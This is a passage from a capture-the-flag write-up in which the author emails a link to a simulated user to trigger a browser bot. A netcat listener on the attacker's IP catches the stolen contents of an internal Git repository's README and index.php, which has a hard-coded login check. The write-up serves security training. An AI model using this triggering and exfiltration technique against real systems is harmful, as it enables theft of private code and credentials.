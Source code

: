 I have to send the mail to the `joseph` as per the mail sent by the rose instructions.

![](Pasted%20image%2020250716221117.png)
_mail sent by rose to axel_

```bash
echo 'http://localhost:3000/axel/demo' | sendmail jobert@localhost
```
{: .nolineno}
But this will not trigger unless I create a file into the git repo so.

Let capture the response on the `netcat` listeners 🔻

```bash
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.16.22] from (UNKNOWN) [10.10.11.53] 44186
POST / HTTP/1.1
Host: 10.10.16.22
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 117
Origin: http://localhost:3000
Connection: keep-alive
Priority: u=4

# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.     
```
{: .nolineno}
I did not find `README.md` file so lets look for the `index.php` file may be I could find some information there 🔻

```bash
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.16.22] from (UNKNOWN) [10.10.11.53] 54836
POST / HTTP/1.1
Host: 10.10.16.22
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 420
Origin: http://localhost:3000
Connection: keep-alive
Priority: u=4

<?php
$valid_username = 'admin';
$valid_password = 'xxxxxxxxxxxxxxxx';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
```